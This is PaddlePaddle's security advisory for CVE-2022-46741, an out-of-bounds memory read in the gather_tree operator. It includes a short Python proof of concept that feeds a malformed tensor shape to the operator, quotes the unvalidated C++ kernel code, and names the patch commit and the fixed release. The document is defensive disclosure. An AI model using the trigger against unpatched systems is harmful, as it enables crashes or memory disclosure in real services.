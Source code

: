 ## PDSA-2022-001: OOB read in gather_tree

### CVE Number

CVE-2022-46741

### Impact

The PoC is as follows:

```python
import paddle
import paddle.base as fluid
import numpy as  np

ids = paddle.to_tensor([[2,2],[6,1]])
parents = paddle.to_tensor([[2,2],[6,1]])

out = paddle.nn.functional.gather_tree(ids,parents)
```

The [implementation](https://github.com/PaddlePaddle/Paddle/blob/release/2.3/paddle/phi/kernels/cpu/gather_tree_kernel.cc#L31-L33) of GatherTreeKernel does not validate the ids_dims size which would result in a memory out-of-bounds read if the ids shape is invalid.

```c++
template <typename T, typename Context>
void GatherTreeKernel(const Context &dev_ctx,
                      const DenseTensor &ids,
                      const DenseTensor &parents,
                      DenseTensor *out) {
  const auto *ids_data = ids.data<T>();
  const auto *parents_data = parents.data<T>();

  T *out_data = dev_ctx.template Alloc<T>(out);

  auto &ids_dims = ids.dims();
  auto max_length = ids_dims[0];
  auto batch_size = ids_dims[1];
  auto beam_size = ids_dims[2];    //[1]
```

### Patches

We have patched the issue in commit [ee6e6d511f9f33fc862c11722701fb5abb99ed94](https://github.com/PaddlePaddle/Paddle/commit/ee6e6d511f9f33fc862c11722701fb5abb99ed94).

The fix will be included in PaddlePaddle 2.4.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by Wang Xuan(王旋) of Qihoo 360 AIVul Team.
